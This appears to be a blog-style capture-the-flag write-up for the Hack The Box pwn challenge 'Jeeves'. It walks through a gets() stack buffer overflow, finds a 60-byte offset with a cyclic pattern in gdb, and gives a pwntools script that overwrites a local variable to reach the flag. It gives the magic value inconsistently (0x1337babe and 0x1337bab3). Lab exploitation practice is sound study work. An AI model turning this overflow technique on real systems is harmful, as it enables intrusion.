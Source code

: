```yaml
---

title: HTB [JEEVES] [PWN]

date: 2022-06-03 00:28:05 +0200

categories: [pwn,htb]

tags: [Intro to Binary Exploitation]

---
```



## Jeeves

**Challenge Description:**

> How are you doing, sir?


**Analysis:**
- We're having a 64 bit executable file
- it's dynamically linked an not stripped
- Now let's check the mitigations of this binary

- **Mitigations:**

```css
     Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

**Decompile:**

![](https://i.imgur.com/NNawgk3.png)
- *Line12:* gets() is vulnerable to buffer overflow
- *Line14:* They're checking `local_c` == `0x1337bab3`
- It's impossible for this condition check to be true 
- So we're going to use buffer overflow to overwrite this variable's value to `0x1337babe`
- So we can able to read the flag :D

**Exploitation part:**
- First we need to know the offset to that `local_c` variable
- So, I'm generating a pattern with [pattern.py](https://github.com/jopraveen/exploit-development/blob/main/pattern.py)

```css
 0x0000000000001236 <+77>:	cmp    DWORD PTR [rbp-0x4],0x1337bab3
```
- Now setting a break point in this instruction and running it
- Then giving that generated pattern as a input to the program in gdb

![](https://i.imgur.com/DOokuy0.png)
- Now let's see where it occours

```css
➜  ~  pattern Ac0Ac1Ac2Ac         
Pattern Ac0Ac1Ac2Ac first occurrence at position 60 in pattern.
```

- So our exploit be like

|junk|60 bytes|
|-|-|
|0x1337bab3|8 bytes|


**Exploit script:**
```python
from pwn import *

p = remote('157.245.33.77',31834)

payload = b'A'*60
payload += p64(0x1337bab3)

p.sendline(payload)
p.interactive()
```


![](https://i.imgur.com/09LTLgy.png)
- Cool we got our flag!!
